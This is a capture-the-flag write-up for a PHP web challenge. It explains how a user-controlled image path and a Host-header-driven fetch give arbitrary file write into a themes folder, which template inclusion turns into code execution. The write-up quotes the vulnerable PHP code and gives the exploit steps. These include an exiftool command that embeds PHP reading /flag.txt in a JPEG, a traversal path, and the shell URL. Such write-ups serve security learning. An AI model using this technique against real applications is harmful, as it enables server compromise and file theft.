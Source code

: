 # web02 (Point: 220)

![web2.1](images/2.1.png)


## TL;DR

**This was LFI to RCE where LFI was only possible from a specific themes directory. So our task was to somehow write our payload file into themes directory and include it.**


## Vulnerability

So there were 2 major functionality of the app:

* Upload image.
* create a post with title, content and image .


### LFI in themes folder

So we noticed our uploaded image gets uploaded at:
* /uploads/32-byt-random-hash.jpg

And, When we create a new post, server provides us with a new POST-ID with our content displayed inside a template, http://52.78.36.66:81/post.php?post_id=ruym2lDW&theme=theme1.php uses `theme1.php` template and inject our post into it. <br>
Themes are located in /themes folder:
* /themes/theme1.php
* /themes/theme2.php

So if we are able to upload our shell.jpg into themes folder, we will be able to include it as a template using above route.

### Source code leak

![web2.2](images/2.2.png)

Some of the source code was available at http://52.78.36.66:81/post.php. Code analyses displays the following :

* So when we `rotate` a image(it have to be a valid image):
    * If file name doesnt exists locally its fetched from URL. (Here $_SERVER['HTTP_HOST'] is Host Header which is user controlled)
        ```php
        $src_file = $post['feature_img'];
        
        if ( !file_exists( $src_file ) ) {
                $base_url = "http://" . $_SERVER['HTTP_HOST'];
                $src = $base_url. "/" . $src_file;
            } else {
                $src = $src_file;
            }
        ```

    * The image is rotated is rotated and new image is saved to new location `$post['feature_img']` which is user controlled.
        ```
        $src_file = $post['feature_img'];
        
        ...
        @$img->writeImage($src_file);
        ```

So, if we have `feature_img` = `../themes/shell.php` and we rotate the image, it will then be stored at `../themes/shell.php`, i.e in `themes` folder(Thus we have arbritrary write)

### Hint

View-Source tells the flag is at /flag.txt

## Exploit

* So first we create a valid JPG file with out shell inside it. We can put our PHP shell inside jpeg comment exif as follows:
    ```
    ubuntu $ exiftool -comment="<?php echo file_get_contents('/flag.txt'); ?>" img.jpg 
    ```
    upload the image to server in themes folder: http://1.2.3.4/themes/img.jpg

<!-- * Now we have an image with our php in it, so lets upload it to server(my image was uploaded at /uploads/b798abe6e1b1318ee36b0dcb3fb9e4d3.jpg) -->

* Create a new post with
    ```
    Post title = whtever
    Featured image = ../themes/shell.php  // $post['feature_img'];
    Post body = whtever
    ```
    So the new Post is at `http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=theme1.php`

* Edit image and rotate the image in post with 0deg and chagne Host header to your server's host. So it will
    * Fetch the image with php payload from server
    * rotate is 0deg
    * save it to `$post['feature_img']` which is '../themes/shell.php'

        ![web2.4](images/2.4.png)

* Access the shell using template LFI

http://52.78.36.66:81/post.php?post_id=04iQ2QJ3&theme=shell.php

### FLag

WhiteHat{w0r6prEss_1s_!N_mY_H34r1}

![web2.5](images/2.5.png)


